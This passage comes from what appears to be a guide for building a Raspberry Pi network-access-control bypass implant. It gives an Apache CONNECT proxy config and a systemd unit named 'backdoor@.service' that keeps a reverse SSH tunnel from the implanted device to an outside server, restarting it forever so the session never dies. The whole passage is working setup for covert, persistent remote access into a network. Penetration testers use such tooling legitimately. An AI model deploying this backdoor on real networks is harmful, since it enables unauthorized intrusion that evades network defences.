 ```sh
  ProxyVia Full

  ## IMPORTANT: The AllowCONNECT directive specifies a list
  ## of port numbers to which the proxy CONNECT method may
  ## connect.  For security, only allow CONNECT requests
  ## bound for port 22.
  AllowCONNECT 22

  ## IMPORTANT: By default, deny everyone.  If you don't do this
  ## others will be able to connect to port 22 on any host.
  <Proxy *>
    Order deny,allow
    Deny from all
  </Proxy>

  ## Now, only allow CONNECT requests bound for our server
  ## Should be replaced with an ip or the hostname
  ## of whatever SSH server you're trying to connect to. Note
  ## that ProxyMatch takes a regular expression, so you can do
  ## things like (1\.2\.3\.4|anotherserver\.com) if you want
  ## to allow connections to multiple destinations.
  <ProxyMatch (1\.2\.3\.4|127\.0\.0\.1)>
    Order allow,deny
    Allow from all
  </ProxyMatch>

  ## Logging, always a good idea.
  LogLevel warn
  ErrorLog logs/yourwebserver-proxy_error_log
  CustomLog logs/yourwebserver-proxy_request_log combined

</VirtualHost>
```
The above config file will create the listener on apache, allowing an HTTPS tunnel to be established and SSH to passed through only to itself - look at the ProxyMatch section.

Back to working on the Raspberry Pi:
Next, create the following service file titled "backdoor@.service":

```sh
[Unit]
Description=Setup a remote secure tunnel to %I
After=network.target

[Service]
Environment="LOCAL_ADDR=localhost"
EnvironmentFile=/opt/NacBypass2.0/backdoor@%i
ExecStart=/usr/bin/ssh -NT -o ServerAliveInterval=60 -o ServerAliveCountMax=2 -o ExitOnForwardFailure=yes -R ${LOCAL_PORT}:localhost:${REMOTE_PORT} ${TARGET}
RestartSec=5
Restart=always

[Install]
WantedBy=multi-user.target
```
A couple things to note, the "ServerAliveInterval" parameter will send a null packet every 60 seconds over the SSH session to keep it alive. This way the session never dies due to a inactivity timeout. Additionally, the "ServerAliveCountMax" parameter Sets the number of server alive messages which may be sent without the client receiving any messages back from the server. When the threshold is reached, the session is killed. Luckly for us, the service file is set to always restart the ssh session.